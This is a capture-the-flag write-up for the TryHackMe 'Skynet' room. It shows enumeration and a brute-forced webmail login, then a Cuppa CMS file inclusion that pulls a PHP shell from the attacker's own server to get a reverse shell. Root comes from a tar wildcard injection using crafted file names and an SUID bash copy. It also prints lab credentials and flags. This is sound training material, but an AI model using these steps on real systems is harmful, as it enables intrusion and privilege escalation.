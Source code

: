 # Skynet (THM)

- https://tryhackme.com/room/skynet
- March 3, 2023
- easy

---

## Enumeration

- Nmap Initial

1. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.18 ((Ubuntu))
3. 110/pop3d
   - pop3-capabilities: TOP PIPELINING AUTH-RESP-CODE UIDL RESP-CODES SASL CAPA
4. 139/samba smbd 3.X - 4.X
5. 143/imap Dovecot imapd
   - imap-capabilities: ENABLE LOGIN-REFERRALS Pre-login listed more IMAP4rev1 OK have LOGINDISABLEDA0001 ID IDLE post-login capabilities SASL-IR LITERAL+
6. 445/tcp open netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

- samba enumeration with enum4linux

```
users - milesdyson
shares - print$, anonymous, milesdyson, IPC$
anonymous - ok
```

- login as anonymous

```sh
$ smbclient //$IP/anonymous
# get files
```

- log1.txt -> may be passwords of something
- attention.txt -> username - Miles Dyson

- http directory enumeration

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -c
admin         [Status: 301, Size: 312, Words: 20, Lines: 10]
config        [Status: 301, Size: 313, Words: 20, Lines: 10]
css           [Status: 301, Size: 310, Words: 20, Lines: 10]
index.html    [Status: 200, Size: 523, Words: 26, Lines: 19]
js            [Status: 301, Size: 309, Words: 20, Lines: 10]
server-status [Status: 403, Size: 277, Words: 20, Lines: 10]
squirrelmail  [Status: 301, Size: 319, Words: 20, Lines: 10]
```

- SquirrelMail -> 1.4.23 (SVN)

![](images/2023-03-03-19-56-23.png)

- admin -> no permission

- at this point, we get `username - Miles Dyson` and list of may be passwords from anonymous ftp server
- we know squirrel mail login page and try to brute force with Miles Dyson and passwords
- create possible usernames
- write in `mail_burte_force.py`

`milesdyson:cyborg007haloterminator`

![](images/2023-03-03-20-43-20.png)

![](images/2023-03-03-20-44-04.png)

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B
```

- other mails

![](images/2023-03-03-20-45-08.png)

![](images/2023-03-03-20-45-31.png)

- enter smb with above password

```sh
smbclient //$IP/milesdyson -U milesdyson
```

![](images/2023-03-03-20-48-54.png)

- there are many files inside notes folder
- get important.txt

```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

- it may be secret directory in http

![](images/2023-03-03-20-55-16.png)

- nothing special found and brute force the directory

```sh
$ ffuf -u http://10.10.14.212/45kra24zxs28v3yd/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -t 128 -c
```

- administrator found
  `http://10.10.14.212/45kra24zxs28v3yd/administrator/` - it is a login page.

![](images/2023-03-03-21-05-49.png)

- try to login with previous name and password
- not success
- find cuppa exploit and found '/alertConfigField.php' Local/Remote File Inclusion
- https://www.exploit-db.com/exploits/25971

- http://10.10.14.212/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../etc/passwd

- in local machine, create server with python and create shell.php file
- listen with nc in local machine
- curl request to

```
http://10.10.14.212/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.8.57:9999/php_shell.php
```

![](images/2023-03-03-21-13-04.png)

```sh
$ cat /home/milesdyson/user.txt
7ce5c2109a40f958099283600a9ae807
```

- check cronjobs

```sh
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

$ cat backups/backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

- backup.sh is run by root user as cron job
- backup.sh run tar with \* from /var/www/html directory which has `www-data` full permission
- here is an exploit to get root shell

```sh
$ cd /var/www/html
$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
# this will be run by root and will get SUID for bash
$ chmod +x runme.sh
$ touch "/var/www/html/--checkpoint=1"
$ touch "/var/www/html/--checkpoint-action=exec=sh runme.sh"
# wait for 1 minute to run by root, then
$ ls -la /tmp # if bash is found
$ /tmp/bash -p
$ whoami
root
$ cat /root/root.txt
3f0372db24753accc7179a282cd6a949
```

---
